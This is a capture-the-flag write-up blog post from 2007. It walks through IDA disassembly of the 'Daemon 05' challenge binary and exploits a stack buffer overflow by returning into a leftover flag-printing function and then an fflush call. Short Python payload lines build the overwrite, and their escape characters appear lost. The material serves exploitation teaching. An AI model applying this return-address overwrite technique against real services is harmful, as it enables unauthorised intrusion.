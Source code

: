 ```yaml
---
title: Exploiting HTIB 2007 Kuala Lumpur CTF Daemon 05
author: lamer
excerpt: |
  |
    Daemon 05 has a simple buffer overflow error. Exploiting it by returning to a conveniently-left-behind function (an easter egg, I say).
layout: post
tweetcount:
  - 0
tweetbackscheck:
  - 1408359076
shorturls:
  - 'a:4:{s:9:"permalink";s:82:"http://www.vnsecurity.net/2007/09/exploiting-htib-2007-kuala-lumpur-ctf-daemon-05/";s:7:"tinyurl";s:26:"http://tinyurl.com/ydkcuga";s:4:"isgd";s:18:"http://is.gd/aOubC";s:5:"bitly";s:0:"";}'
twittercomments:
  - 'a:0:{}'
categories:
  - 'CTF - CLGT Crew'
---
```

## Identify `main`

Like the previous blog post, let&#8217;s start with the `start` function.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;080488B0                 public start
&lt;b&gt;.text:&lt;/b&gt;080488B0 start           proc near
&lt;b&gt;.text:&lt;/b&gt;080488B0                 &lt;b&gt;xor&lt;/b&gt;     &lt;b&gt;ebp&lt;/b&gt;, &lt;b&gt;ebp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B2                 &lt;b&gt;pop&lt;/b&gt;     &lt;b&gt;esi&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B3                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ecx&lt;/b&gt;, &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B5                 &lt;b&gt;and&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 0FFFFFFF0h
&lt;b&gt;.text:&lt;/b&gt;080488B8                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B9                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488BA                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;edx&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488BB                 &lt;b&gt;push&lt;/b&gt;    offset sub_804C650
&lt;b&gt;.text:&lt;/b&gt;080488C0                 &lt;b&gt;push&lt;/b&gt;    offset sub_804C5F0
&lt;b&gt;.text:&lt;/b&gt;080488C5                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;ecx&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488C6                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;esi&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488C7                 &lt;b&gt;push&lt;/b&gt;    offset main
&lt;b&gt;.text:&lt;/b&gt;080488CC                 &lt;b&gt;call&lt;/b&gt;    ___libc_start_main
</pre>

We identify the `main` function as the last argument to `___libc_start_main`. So let&#8217;s get to it.

## Analyze `main`

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;08048ABE main            proc near               ; DATA XREF: start+17&uarr;o
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_518         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;518h
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_514         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;514h
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_510         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;510h
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_208         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;208h
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;ebp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ABF                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ebp&lt;/b&gt;, &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AC1                 &lt;b&gt;sub&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 518h       ; char *
&lt;b&gt;.text:&lt;/b&gt;08048AC7                 &lt;b&gt;and&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 0FFFFFFF0h
&lt;b&gt;.text:&lt;/b&gt;08048ACA                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048ACF                 &lt;b&gt;add&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0Fh
&lt;b&gt;.text:&lt;/b&gt;08048AD2                 &lt;b&gt;add&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0Fh
&lt;b&gt;.text:&lt;/b&gt;08048AD5                 &lt;b&gt;shr&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 4
&lt;b&gt;.text:&lt;/b&gt;08048AD8                 &lt;b&gt;shl&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 4
&lt;b&gt;.text:&lt;/b&gt;08048ADB                 &lt;b&gt;sub&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ADD                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, offset aCodedByXwings_ ; &quot;Coded By xWinGs. a code just to make yo&quot;...
&lt;b&gt;.text:&lt;/b&gt;08048AE4                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048AE9                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, offset aSecretCode ; &quot;Secret Code: &quot;
&lt;b&gt;.text:&lt;/b&gt;08048AF0                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048AF5                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;stdout
&lt;b&gt;.text:&lt;/b&gt;08048AFA                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AFD                 &lt;b&gt;call&lt;/b&gt;    _fflush
&lt;b&gt;.text:&lt;/b&gt;08048B02                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_510&lt;b&gt;]&lt;/b&gt;, 200h
&lt;b&gt;.text:&lt;/b&gt;08048B0A                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;var_208&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B10                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_514&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B14                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048B1B                 &lt;b&gt;call&lt;/b&gt;    _read
&lt;b&gt;.text:&lt;/b&gt;08048B20                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;dword_80529DC, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B25                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_510&lt;b&gt;]&lt;/b&gt;, offset aEtcFlagsDaemon ; &quot;/etc/flags/daemon05.txt&quot;
&lt;b&gt;.text:&lt;/b&gt;08048B2D                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;dword_80529DC
&lt;b&gt;.text:&lt;/b&gt;08048B32                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_514&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B36                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;var_208&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B3C                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B3F                 &lt;b&gt;call&lt;/b&gt;    sub_80489F4
</pre>

First, a few calls to `printf` to advertise this is from xWinGs. Nothing fancy yet. Then a `read` of 0&#215;200 (1024) bytes to `var_208`. So, let&#8217;s rename `var_208` to `input_buffer`. And also note that `input_buffer` is the first item on the stack. After `input_buffer` there comes the frame pointer and a return address.

With the same reasoning as in the previous post, we also rename `var_518` to `first_arg`, `var_514` to `second_arg`, and `var_510` to `third_arg`.

After the `read` is a check for score server packet. We&#8217;ll skip it. And here comes the juicy part.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;08048B44                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;stdin
&lt;b&gt;.text:&lt;/b&gt;08048B49                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;third_arg&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B4D                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;second_arg&lt;b&gt;]&lt;/b&gt;, 300h
&lt;b&gt;.text:&lt;/b&gt;08048B55                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;input_buffer&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B5B                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;first_arg&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B5E                 &lt;b&gt;call&lt;/b&gt;    _fgets
&lt;b&gt;.text:&lt;/b&gt;08048B63                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;first_arg&lt;b&gt;]&lt;/b&gt;, offset aWrongCode_ ; &quot;Wrong Code.n&quot;
&lt;b&gt;.text:&lt;/b&gt;08048B6A                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048B6F                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048B74                 &lt;b&gt;leave&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B75                 &lt;b&gt;retn&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B75 main            endp
</pre>

The next call is to `fgets` to read another, uhm, 0&#215;300 bytes to `input_buffer`. And this is where overflow occurs. Remember that `input_buffer` is only 1024 byte long, and after it is the frame pointer and return address. So by overflowing `input_buffer` we are able to control the return address.

Ok, that&#8217;s all fine, but where do we want `main` to return to? A little digging around reveals this piece of unidentified code.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;08048A60 locret_8048A60&lt;b&gt;:&lt;/b&gt;                         ; CODE XREF: sub_80489F4+29&uarr;j
&lt;b&gt;.text:&lt;/b&gt;08048A60                 &lt;b&gt;leave&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A61                 &lt;b&gt;retn&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A61 sub_80489F4     endp
&lt;b&gt;.text:&lt;/b&gt;08048A61
&lt;b&gt;.text:&lt;/b&gt;08048A62 ; ---------------------------------------------------------------------------
&lt;b&gt;.text:&lt;/b&gt;08048A62                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;ebp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A63                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ebp&lt;/b&gt;, &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A65                 &lt;b&gt;sub&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 48h
&lt;b&gt;.text:&lt;/b&gt;08048A68                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;4&lt;b&gt;]&lt;/b&gt;, offset aR ; &quot;r&quot;
&lt;b&gt;.text:&lt;/b&gt;08048A70                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, offset aEtcFlagsDaemon ; &quot;/etc/flags/daemon05.txt&quot;
&lt;b&gt;.text:&lt;/b&gt;08048A77                 &lt;b&gt;call&lt;/b&gt;    _fopen
&lt;b&gt;.text:&lt;/b&gt;08048A7C                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;0Ch&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A7F                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;0Ch&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A82                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;8&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A86                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;4&lt;b&gt;]&lt;/b&gt;, 20h
&lt;b&gt;.text:&lt;/b&gt;08048A8E                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;38h&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A91                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A94                 &lt;b&gt;call&lt;/b&gt;    _fgets
&lt;b&gt;.text:&lt;/b&gt;08048A99                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;0Ch&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A9C                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A9F                 &lt;b&gt;call&lt;/b&gt;    _fclose
&lt;b&gt;.text:&lt;/b&gt;08048AA4                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;38h&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AA7                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;4&lt;b&gt;]&lt;/b&gt;,;;; &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AAB                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, offset &lt;b&gt;aS&lt;/b&gt; ; &quot;n%s&quot;
&lt;b&gt;.text:&lt;/b&gt;08048AB2                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048AB7                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048ABC                 &lt;b&gt;leave&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ABD                 &lt;b&gt;retn&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE ; ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦ S U B R O U T I N E ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE ; Attributes: bp-based frame
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE main            proc near               ; DATA XREF: start+17&uarr;o
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE first_arg       &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;518h
&lt;b&gt;.text:&lt;/b&gt;08048ABE second_arg      &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;514h
&lt;b&gt;.text:&lt;/b&gt;08048ABE third_arg       &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;510h
&lt;b&gt;.text:&lt;/b&gt;08048ABE input_buffer    &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;208h
</pre>

Look at `08048A62`! It&#8217;s a function prologue. And indeed from `08048A62` to `08048ABD` is a proper function! What great is that it opens, reads, and prints the flag out! This is so convenient!

## Exploit it

Now, let&#8217;s gather what we&#8217;ve have. We can control where main returns to, and we know there&#8217;s a function that suits our purpose. Therefore, the challenge is&#8230; none. We just return to this function!

With that tactic, our exploit is as trivial as constructing a buffer containing all `08048A62`. And how hard could it be? Two lines of Python code!

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">import struct
buffer = struct.pack("I", 0x08048A62) * 1000
</pre>

## Remotely exploit it

If you tried out the buffer above, you might find that it didn&#8217;t work remotely. This is because the easter-egg function uses `printf` to print out the flag. It is common knowledge that `printf` buffers its content. If the output stream is connected to a console window, the buffering is line-based, otherwise it is block-based. In our case, the output stream is connected to a socket, so the buffering is block-based. Usually, this block is 8 KBytes. Each call to the easter-egg only prints out about 20 bytes. So, to fill this buffer, we will need at least 409 calls to the easter-egg function, or we need to put in 409 * 4 = 0&#215;664 bytes. However, only 0&#215;300 bytes are read in. So this approach fails.

Another approach is to flush the stream after `printf`. Luckily, this is doable by returning to `08048AF5`. At that address, there is a call to `fflush` on `stdout`. Again, we only use existing code.

In summary, in order to exploit daemon05 remotely, we will have to change our buffer to look like:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">buffer = struct.pack("I", 0x08048A62) * 300 + "xF5x8Ax04x08" + "x0A"
</pre>

## Observation

Well, what should I say? Thank you, xWinGs, for this twisted fun!